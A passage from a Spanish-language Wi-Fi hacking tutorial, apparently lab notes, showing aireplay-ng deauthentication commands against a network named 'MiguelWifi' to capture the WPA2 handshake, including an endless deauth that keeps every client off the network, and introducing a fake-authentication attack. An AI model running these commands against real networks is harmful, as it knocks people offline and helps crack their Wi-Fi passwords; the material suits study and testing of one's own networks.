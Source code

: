- Ahora si lo iniciamos los dispositivos se van a desconectar y cuando uno se reconecte capturaremos el **Handshake**.

```bash
❯ aireplay-ng -0 15 -e MiguelWifi -c FF:FF:FF:FF:FF:FF wlan0mon
```

<p align="center">
<img src="/assets/wifi/hacking-wpa2/web10new.png">
</p>

- Esta es otra forma.

```bash
❯ aireplay-ng -0 15 -e MiguelWifi wlan0mon
```

- Si lo que queremos hacer es que ningún cliente se conecte podemos enviar paquetes infinitos.

```bash
❯ aireplay-ng -0 0 -e MiguelWifi wlan0mon
```

## Ataque de Autenticación

- Este ataque nos va a permitir autenticar a un cliente a una red inalambrica o a un punto de acceso si vemos el panel de ayuda de `aireplay-ng` vemos que nos dicen sobre **fakeauth**. 

- Un ejemplo rápida para comprender este concepto es que mediante un **AP** que tenemos vamos a conectar un cliente suponiendo que no hay ningún cliente conectado al **AP**.
